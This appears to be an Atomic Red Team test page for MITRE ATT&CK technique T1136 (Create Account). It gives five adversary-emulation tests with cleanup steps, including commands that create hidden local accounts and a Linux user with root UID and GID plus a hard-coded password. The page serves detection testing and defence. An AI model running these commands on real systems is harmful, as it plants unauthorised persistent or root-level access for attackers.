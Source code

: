 # T1136 - Create Account

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)

<blockquote>Adversaries with a sufficient level of access may create a local system, domain, or cloud tenant account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

In cloud environments, adversaries may create accounts that only have access to specific services, which can reduce the
chance of detection.

### Windows

The <code>net user</code> commands can be used to create a local or domain account.

### Office 365

An adversary with access to a Global Admin account can create another account and assign it the Global Admin role for
persistent access to the Office 365 tenant.(Citation: Microsoft O365 Admin Roles)(Citation: Microsoft Support O365 Add
Another Admin, October 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)

<br/>

## Atomic Test #1 - Create a user account on a Linux system

Create a user via useradd

**Supported Platforms:** Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|

#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin)

```bash
useradd -M -N -r -s /bin/bash -c evil_account #{username}
```

#### Cleanup Commands:

```bash
userdel #{username}
```

<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system

Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|

#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin)

```bash
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```

#### Cleanup Commands:

```bash
dscl . -delete /Users/#{username}
```

<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt

Creates a new user in a command prompt. Upon execution, "The command completed successfully." will be displayed. To
verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136_CMD"

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_CMD|
| password | Password of the user to create | String | T1136_CMD!|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
net user /add "#{username}" "#{password}"
```

#### Cleanup Commands:

```cmd
net user /del "#{username}" >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell

Creates a new user in PowerShell. Upon execution, details about the new account will be displayed in the powershell
session. To verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136_PowerShell"

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_PowerShell|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
New-LocalUser -Name "#{username}" -NoPassword
```

#### Cleanup Commands:

```powershell
Remove-LocalUser -Name "#{username}" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.

Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the
Butter attack campaign.

**Supported Platforms:** Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|

#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin)

```bash
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```

#### Cleanup Commands:

```bash
userdel #{username}
```

<br/>
